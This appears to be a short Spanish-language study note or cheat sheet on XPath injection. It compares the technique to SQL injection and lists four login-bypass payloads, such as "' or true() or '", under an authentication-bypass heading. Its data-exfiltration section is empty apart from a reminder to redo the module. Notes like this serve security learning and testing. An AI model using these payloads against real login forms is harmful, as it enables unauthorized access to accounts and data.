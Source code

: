 # INFO
El xpath injection funciona parecido a las SQLI (es como una prima). Posee una sintaxis diferente y aborda los indexes de nodos dentro de un xml.

## Authentication Bypass

#### Bypass mediante boolean simple:

    admin' or '1'='1

#### Bypass mediante un true absoluto

    ' or true() or '

#### Buscar un usuario por index de nodo para el logueo

    ' or position()=2 or '

#### Bypass buscando un usuario específico:

    ' or contains(.,'admin') or '


## Data Exfiltration

#### Basic Data Exfiltration
##### REHACER EL MODULO Y TOMAR BIEN NOTA


    

